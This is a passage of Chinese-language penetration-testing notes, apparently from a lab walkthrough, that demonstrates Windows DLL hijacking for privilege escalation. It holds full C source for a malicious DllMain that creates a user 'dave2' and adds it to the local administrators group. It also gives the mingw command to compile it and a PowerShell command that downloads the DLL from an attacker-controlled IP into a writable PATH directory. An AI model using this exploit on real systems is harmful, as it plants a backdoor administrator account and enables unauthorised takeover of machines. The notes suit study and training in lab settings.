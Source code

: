 ```armasm
Restart-Service BetaService
```

看到多次调用myDLL.dll

查看环境变量

```armasm
PS C:\Users\steve> $env:path
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\steve\AppData\Local\Microsoft\WindowsApps;
```

在第一个调用路径上放置dll文件

```armasm
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

编译

```armasm
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

放置在一个调用路径，需要是一个可写目录，如：

```armasm
C:\Users\steve\Documents 
```

```armasm
cd Documents
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
net user
```
